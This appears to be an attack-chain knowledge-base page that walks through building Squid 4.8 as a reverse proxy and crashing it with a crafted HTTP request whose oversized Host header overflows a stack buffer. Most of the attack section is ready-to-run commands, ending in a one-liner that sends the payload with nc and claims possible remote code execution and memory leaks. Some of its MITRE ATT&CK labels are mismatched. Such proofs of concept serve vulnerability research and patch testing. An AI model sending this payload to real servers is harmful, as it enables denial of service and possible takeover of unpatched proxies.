

# Stack Buffer Overflow in Squid Reverse Proxy Leading to RCE and Data Leak

Multi-stage attack chain demonstrating the exploitation of a stack buffer overflow vulnerability in Squid 4.8's Host header parsing when running as a reverse proxy. This chain covers environment setup, building the vulnerable software, configuration, and triggering the overflow to cause crashes (DoS), potential RCE, and memory leaks.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/wget]]
- [[tools/tar]]
- [[tools/autoreconf]]
- [[tools/configure]]
- [[tools/make]]
- [[tools/nc]]

### Target Environment

- Linux OS (e.g., Ubuntu or similar with build tools installed)
- Ports: 9999 (Squid listener), 80 (backend simulation)
- Services: Squid reverse proxy
- Network access: Localhost access for testing

### Initial Access Requirements

- No credentials needed for local reproduction
- Root or sudo access may be required for installation
- Prior access: Local machine with compiler toolchain (gcc, autoconf, etc.)

## Detailed Attack Procedures

### Step 1: Setup Environment and Download Squid Source
procedure: [[procedures/Setup-Environment-and-Download-Squid-Source]]

**Objective**: Prepare the local environment and obtain the vulnerable Squid 4.8 source code for building.

**Instructions**: Create a working directory and download the source tarball using [[commands/wget-squid-source]]:

```bash
wget 'https://github.com/squid-cache/squid/archive/SQUID_4_8.tar.gz'
```

Extract the archive with [[commands/tar-extract-squid]]:

```bash
mkdir squid-poc && cd squid-poc/ && tar zxf SQUID_4_8.tar.gz
```

**Expected Output**: Extracted directory `squid-SQUID_4_8/` containing Squid source.

**Success Indicators**:
- Directory `squid-poc` created
- Source tarball downloaded and extracted without errors

### Step 2: Build and Install Vulnerable Squid
procedure: [[procedures/Build-and-Install-Vulnerable-Squid]]

**Objective**: Compile and install Squid 4.8 in a local directory to reproduce the vulnerability.

**Instructions**: Navigate to source and regenerate build files using [[commands/autoreconf-regenerate]]:

```bash
autoreconf -if
```

Configure the build with a local prefix using [[commands/configure-squid-build]]:

```bash
./configure --prefix=$(realpath ../squid-install)
```

Compile with [[commands/make-compile-squid]]:

```bash
make -j$(nproc)
```

Install using [[commands/make-install-squid]]:

```bash
make install
```

**Expected Output**: Binaries installed in `squid-install/sbin/`.

**Success Indicators**:
- Build completes without errors
- `squid` binary present in installation directory

### Step 3: Configure Squid as Reverse Proxy
procedure: [[procedures/Configure-Squid-as-Reverse-Proxy]]

**Objective**: Set up Squid configuration for reverse proxy mode to enable the vulnerable Host header parsing.

**Instructions**: Create `squid.conf` manually in `squid-install/sbin/` with the following content:

```bash
http_port 9999 accel defaultsite=127.0.0.1 vhost vport=1
cache_peer 127.0.0.1 parent 80 0 no-query originserver name=myAccel
acl our_sites dstdomain your.main.website.name
http_access allow our_sites
cache_peer_access myAccel allow our_sites
cache_peer_access myAccel deny all
```

Use [[commands/cd-to-squid-sbin]] to position correctly:

```bash
cd ../squid-install/sbin/
```

**Expected Output**: Valid `squid.conf` file created.

**Success Indicators**:
- Configuration file exists and parses without syntax errors
- Squid can start with the config (test manually if needed)

### Step 4: Trigger Squid Host Header Buffer Overflow
procedure: [[procedures/Trigger-Squid-Host-Header-Buffer-Overflow]]

**Objective**: Launch Squid and send a crafted HTTP request to overflow the Host header buffer, causing crash or RCE.

**Instructions**: Start Squid and exploit using [[commands/launch-squid-and-exploit]]:

```bash
./squid -N -f squid.conf & sleep 1 && echo -en "GET / HTTP/1.1\x0D\x0AHost: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:\x0D\x0A\x0D\x0A" | nc localhost 9999
```

**Expected Output**: Buffer overflow detected, Squid aborts with core dump.

**Success Indicators**:
- Squid process crashes with "buffer overflow detected"
- Potential RCE on unprotected builds; memory leak visible in response for specific lengths

## Attack Chain Summary

### Key Achievements

1. Successful reproduction of Squid 4.8 stack buffer overflow in reverse proxy mode
2. Achievement of DoS via server crash
3. Demonstration of potential RCE and uninitialized memory leak

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Endpoint Denial of Service]] Endpoint Denial of Service
- [[Credential Dumping]] OS Credential Dumping (for memory leak)

### MITRE ATT&CK Tactics

- [[Execution]] Execution
- [[Privilege Escalation]] Impact
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
